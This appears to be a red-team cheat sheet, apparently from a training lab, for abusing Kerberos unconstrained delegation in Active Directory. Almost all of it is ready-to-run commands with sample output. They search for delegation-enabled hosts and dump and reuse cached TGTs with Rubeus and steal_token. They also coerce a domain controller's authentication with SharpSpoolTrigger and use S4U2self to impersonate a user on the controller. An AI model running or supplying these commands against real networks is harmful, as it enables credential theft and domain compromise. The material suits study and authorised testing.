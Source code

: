 # Get machines with unconstrained delegation in the Domain

```bash
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```

---

# After compromising a machine on the list we can wait for a privileged account to interact with it to get the tgt cached

```bash
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```

---

# If a TGT is cached we can simply dump the ticket and pass the ticket to a proccess created by us

```bash
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=
steal_token 1540

```

---

# We can also force computer accounts to authenticate remotely to grab their TGT and use s4U2self abuse

```bash
# Start listening with Rubeus on Web
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
# To stop monitoring use
jobs
jobkill <id>

# Use SharpSpoolTriget
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io

# We should see a ticket comming by on web
[*] 9/6/2022 2:44:52 PM UTC - Found new TGT:

  User                  :  DC-2$@DEV.CYBERBOTIC.IO
  StartTime             :  9/6/2022 9:06:14 AM
  EndTime               :  9/6/2022 7:06:14 PM
  RenewTill             :  9/13/2022 9:06:14 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    <ticket here>

# To use this machine ticket we need to use a s4u2self technique
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=
steal_token 2664

```

